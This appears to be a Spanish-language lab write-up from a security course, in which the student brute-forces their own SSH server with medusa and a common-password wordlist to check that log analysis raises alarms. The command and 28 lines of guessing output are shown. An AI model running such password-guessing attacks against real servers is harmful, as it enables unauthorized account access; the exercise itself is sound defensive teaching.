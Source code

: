 ## Apartado Q

Realice algún ataque de “password guessing” contra su servidor ssh y compruebe que el analizador de logs reporta las correspondientes alarmas.

```bash
root@debian:/home/lsi$ medusa -h 10.11.48.70 -u lsi -P pass.txt -M ssh -f

ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: 123456 (1 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: 12345 (2 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: 123456789 (3 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: password (4 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: iloveyou (5 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: princess (6 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: 1234567 (7 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: rockyou (8 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: 12345678 (9 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: abc123 (10 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: nicole (11 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: daniel (12 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: babygirl (13 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: monkey (14 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: lovely (15 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: jessica (16 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: 654321 (17 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: michael (18 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: ashley (19 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: qwerty (20 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: 111111 (21 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: iloveu (22 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: 000000 (23 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: michelle (24 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: tigger (25 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: sunshine (26 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: chocolate (27 of 1003 complete)
ACCOUNT CHECK: [ssh] Host: 10.11.48.70 (1 of 1, 0 complete) User: lsi (1 of 1, 0 complete) Password: password1 (28 of 1003 complete)
```